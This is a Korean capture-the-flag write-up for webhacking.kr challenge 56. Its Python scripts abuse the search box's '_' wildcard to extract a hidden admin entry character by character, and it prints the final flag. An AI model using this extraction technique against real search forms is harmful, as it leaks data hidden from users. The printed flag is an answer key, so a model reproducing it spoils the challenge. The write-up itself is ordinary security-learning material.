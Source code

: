 #56
==

테이블이 보이고 검색창이 보인다.

![]()

이것저것 검색을 해보았더니 다음과 같은 특정 패턴을 알아내었다.

`admin만 나오거나 guest만 나오거나 둘 다 나오거나 아니면 둘 다 안나오거나`

그러면 admin이 나오게 하는 것에는 무엇이 있는가 알기 위해 아래와 같이 파이썬 코드를 작성해보았다.

```python
import requests

answer= ""
for j in range(32,127):
    url = "https://webhacking.kr/challenge/web-33/"
    res = requests.post(url, data={'search': chr(j)})
    if res.text.find('admin') != -1:
        answer=answer+chr(j)
        print(answer)
            
print('정답')
print(answer)
```

그랬더니 다음과 같은 것들이 admin이 나오게 하는 것임을 알 수 있었다.

`%0?ACDEFGHIKLMNOSTUY_acdefghiklmnostuy{}`

여기서 `_` 이것은 임의의 숫자나 문자를 의미한다.  
따라서 `_`을 이용해서 admin이 나오게하는 문구의 글자 수를 알 수 있게된다.

다음과 같이 코드를 작성하여 글자 수를 구해보았다.

```python
import requests

d="_"
for j in range(1,50):
    url = "https://webhacking.kr/challenge/web-33/"
    res = requests.post(url, data={'search': d})
    if res.text.find('readme') != -1:
        d=d+'_'
        print(d)
            
print('정답')
len(d)

답 : 45
```

총 45글자인 것을 알 수 있었다.

모두 종합을 해보면 admin이 나오게하는 문구는 `%0?ACDEFGHIKLMNOSTUY_acdefghiklmnostuy{}` 로 이루어져 있으며 총 45자이다.

따라서 앞에서부터 한자리씩 아스키코드값 32부터 127까지 비교해보면 admin이 나오는 값을 구할 수 있다.

```python
import requests

length_num=44

result='0?ACDEFGHIKLMNOSTUY_acdefghiklmnostuy{}'
readme=''
for i in range(length_num):
    for j in result:
        search = "_"*i + str(j) +"_"*(length_num-1-i)
        url = "https://webhacking.kr/challenge/web-33/"
        res = requests.post(url, data={'search': search})
        if res.text.find('readme') != -1:
            readme+=str(j)
            print(j)
            break
            
print(readme)
```

`FLAG{HIMIKO_TOGA_IS_CUTE_DONT_YOU_THINK_SO?}`
